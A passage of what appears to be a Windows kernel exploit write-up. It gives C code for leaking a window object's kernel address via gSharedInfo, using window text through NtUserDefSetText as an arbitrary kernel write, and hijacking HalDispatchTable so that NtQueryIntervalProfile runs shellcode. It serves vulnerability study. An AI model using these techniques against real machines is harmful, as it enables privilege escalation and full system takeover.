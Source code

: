 In addition, I need a mapped relationship from HANDLE to kernel address. There is a global variable named gSharedInfo, it is exported by user32.dll on win7 and later. It is defined as following:

    typedef struct _SHAREDINFO{
    	PSERVERINFO psi;      
    	PHANDLEENTRY aheList;
    	ULONG HeEntrySize;
    	ULONG_PTR pDispInfo;      
    	ULONG_PTR ulSharedDelta;
    	ULONG_PTR awmControl[31];
    	ULONG_PTR DefWindowMsgs;
    	ULONG_PTR DefWindowSpecMsgs;
    }SHAREDINFO,*PSHAREDINFO;

Thus, I can obtain the kernel address from a handle by the function:

    PVOID GetMappedHandlePtr(HANDLE MyHandle, PVOID * UserlandPtr)
    {
    	HANDLEENTRY * UserHandleTable = g_pSharedInfo->aheList;
    	ULONG cEntries = g_pSharedInfo->psi->cHandleEntries;
    	ULONG dwIndex = (ULONG)MyHandle & 0xFFFF;
    	ULONG dwUniq = (ULONG)MyHandle >> 16;
    	if(dwIndex <= cEntries) {
    		if (dwUniq == UserHandleTable[dwIndex].wUniq) {
    			*UserlandPtr = (PVOID)(
                    (ULONG_PTR)UserHandleTable[dwIndex].phead - g_DeltaDesktopHeap);
    			return (PVOID)UserHandleTable[dwIndex].phead;
    		}
    	}
    	return NULL;
    }

In the step 17, 18 and 20, I want to write some bytes to kernelland, so I leverage the Window text. It is a LARGE\_UNICODE\_STRING allocated on the desktop heap and associated a window object. We can found it in tagWND structure, on win7\_sp1\_x86, its offset is 0x84, and the offset 0x8c is just the pointer we can control to read/write. In userland, I can call NtUserDefSetText() to set the window's text, the contents of text would be wrote to the kernel address we want to.

In the step 19, I trigger the last target, shellcode. By calling NtQueryIntervalProfile() in userland, the hal!HaliQuerySystemInformation would be called originally, but its function pointer in the nt!HalDispatchTable has been replaced with myself function at step 18. By the way, when the 1st parameter of NtQueryIntervalProfile would be set to 1, there will be a short-circuit, due to the following code at offset 84115505:

    nt!KeQueryIntervalProfile:
    841154fd 8bff            mov     edi,edi
    841154ff 55              push    ebp
    84115500 8bec            mov     ebp,esp
    84115502 83ec10          sub     esp,10h
    84115505 83f801          cmp     eax,1
    84115508 7507            jne     nt!KeQueryIntervalProfile+0x14 (84115511)
    8411550a a108f7fa83      mov     eax,dword ptr [nt!KiProfileAlignmentFixupInterval (83faf708)]
    8411550f c9              leave
    84115510 c3              ret
